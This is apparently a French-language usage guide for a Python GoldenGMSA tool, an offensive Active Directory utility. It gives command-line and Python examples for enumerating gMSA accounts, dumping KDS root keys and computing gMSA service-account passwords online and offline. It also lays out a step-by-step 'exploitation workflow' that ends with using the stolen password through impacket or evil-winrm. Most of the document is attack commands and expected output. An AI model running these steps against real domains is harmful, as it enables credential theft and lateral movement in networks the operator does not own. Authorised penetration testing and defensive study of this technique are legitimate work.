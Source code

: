# Exemples d'utilisation de GoldenGMSA Python

## Prérequis

- Accès réseau au contrôleur de domaine Active Directory
- Credentials valides pour le domaine
- Python 3.7+ avec les dépendances installées

## Scénarios d'utilisation

### 1. Énumération des gMSA depuis un host Linux

```bash
# Se connecter au domaine et énumérer tous les comptes gMSA
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local gmsainfo

# Avec un DC spécifique (par IP)
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local --dc-ip 10.10.10.5 gmsainfo

# En utilisant LDAPS pour une connexion sécurisée
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local --use-ssl gmsainfo
```

**Sortie attendue :**
```
🔐 Authentification au domaine corp.local...
✅ Connecté au domaine corp.local

sAMAccountName:         svc_gmsa$
objectSid:              S-1-5-21-123456789-987654321-111111111-1234
rootKeyGuid:            46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAABAAAAADAAAA...
----------------------------------------------
```

### 2. Extraction des clés racine KDS

```bash
# Dumper toutes les clés racine KDS (nécessite privilèges élevés)
python main.py -u 'admin@corp.local' -p 'AdminP@ss' --domain corp.local kdsinfo

# Dumper une clé spécifique par GUID
python main.py -u 'admin@corp.local' -p 'AdminP@ss' --domain corp.local kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
```

### 3. Calcul de mot de passe gMSA (Mode en ligne)

```bash
# Calculer le mot de passe d'un gMSA identifié
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local compute --sid S-1-5-21-123456789-987654321-111111111-1234

# Avec forest spécifique
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local --forest corp.local compute --sid S-1-5-21-123456789-987654321-111111111-1234
```

**Sortie attendue :**
```
🔐 Authentification au domaine corp.local...
✅ Connecté au domaine corp.local

Mot de passe encodé en Base64:	YWJjZGVmZ2hpamtsbW5vcHFyc3R1dnd4eXoxMjM0NTY3ODkw...
```

### 4. Mode hors ligne (avec données exportées)

```bash
# Si vous avez déjà extrait les clés KDS et msds-ManagedPasswordID
python main.py compute \
    --sid S-1-5-21-123456789-987654321-111111111-1234 \
    --kdskey AQAAALm45UZXyuYB6Ln7smfkresAAAAQAAAAMgAAADgAAAA... \
    --pwdid AQAAAEtEU0sCAAAAaAEAABAAAAADAAAA...
```

### 5. Formats d'authentification

```bash
# Format UPN (User Principal Name)
python main.py -u 'user@corp.local' -p 'password' --domain corp.local gmsainfo

# Format NetBIOS
python main.py -u 'CORP\user' -p 'password' --domain corp.local gmsainfo

# Format simple (domaine ajouté automatiquement)
python main.py -u 'user' -p 'password' --domain corp.local gmsainfo
```

### 6. Workflow complet d'exploitation

```bash
# Étape 1: Énumérer les gMSA
python main.py -u 'user@corp.local' -p 'password' --domain corp.local gmsainfo > gmsa_list.txt

# Étape 2: Extraire les clés KDS (si privilèges suffisants)
python main.py -u 'admin@corp.local' -p 'adminpass' --domain corp.local kdsinfo > kds_keys.txt

# Étape 3: Calculer le mot de passe d'un gMSA cible
python main.py -u 'user@corp.local' -p 'password' --domain corp.local compute --sid <TARGET_SID>

# Étape 4: Utiliser le mot de passe pour accéder aux ressources
# (via impacket, evil-winrm, etc.)
```

### 7. Utilisation programmatique en Python

```python
from golden_gmsa import LdapConnection, LdapUtils, GmsaAccount, RootKey, GmsaPassword

# Établir la connexion
with LdapConnection(
    domain='corp.local',
    username='user@corp.local',
    password='password',
    dc_ip='10.10.10.5'
) as conn:
    LdapUtils.set_connection(conn)
    
    # Énumérer les gMSA
    gmsa_accounts = list(GmsaAccount.find_all_gmsa_accounts_in_domain('corp.local'))
    
    for gmsa in gmsa_accounts:
        print(f"Found gMSA: {gmsa.sam_account_name}")
        print(f"  SID: {gmsa.sid}")
        print(f"  Root Key GUID: {gmsa.managed_password_id.root_key_identifier}")
        
        # Extraire la clé racine
        root_key = RootKey.get_root_key_by_guid('corp.local', 
                                                 gmsa.managed_password_id.root_key_identifier)
        
        if root_key:
            # Calculer le mot de passe
            password = GmsaPassword.get_password(
                gmsa.sid,
                root_key,
                gmsa.managed_password_id,
                'corp.local',
                'corp.local'
            )
            print(f"  Password (base64): {password.hex()}")
```

## Gestion des erreurs

### Erreur: "Credentials invalides"
```bash
# Vérifier les credentials
python main.py -u 'user@corp.local' -p 'wrong_password' --domain corp.local gmsainfo
# ❌ Credentials invalides
```

### Erreur: "Serveur LDAP injoignable"
```bash
# Utiliser --dc-ip pour spécifier l'IP du DC
python main.py -u 'user@corp.local' -p 'password' --domain corp.local --dc-ip 10.10.10.5 gmsainfo
```

### Erreur: "Aucun résultat trouvé"
```bash
# Vérifier que l'utilisateur a les permissions nécessaires
# Les comptes gMSA nécessitent des permissions de lecture spécifiques
```

## Notes de sécurité

⚠️ **Attention :**
- Ne jamais stocker les credentials en clair dans des scripts
- Utiliser des variables d'environnement ou des gestionnaires de secrets
- Toujours utiliser `--use-ssl` en production
- Effacer les mots de passe calculés après utilisation

```bash
# Exemple avec variable d'environnement
export AD_USER='user@corp.local'
export AD_PASS='password'
python main.py -u "$AD_USER" -p "$AD_PASS" --domain corp.local gmsainfo
```

